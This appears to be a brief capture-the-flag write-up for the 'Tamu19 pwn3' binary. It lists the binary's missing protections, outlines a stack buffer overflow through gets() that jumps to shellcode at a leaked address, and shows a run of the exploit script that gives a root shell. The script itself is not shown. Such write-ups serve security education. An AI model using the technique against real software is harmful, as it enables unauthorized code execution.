 # Tamu19 pwn3

```
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

We are given a stack address, and there's a call to ```gets```. We can write a ```shellcode``` and overflow until we reach ```ret```, which we will replace with that address.

```bash
[root@pwn:~/tamu19_pwn3]$ python expl.py 
[+] Starting local process './pwn3': pid 2213
0xffc5a6de
[*] Switching to interactive mode
!
$ whoami
root
```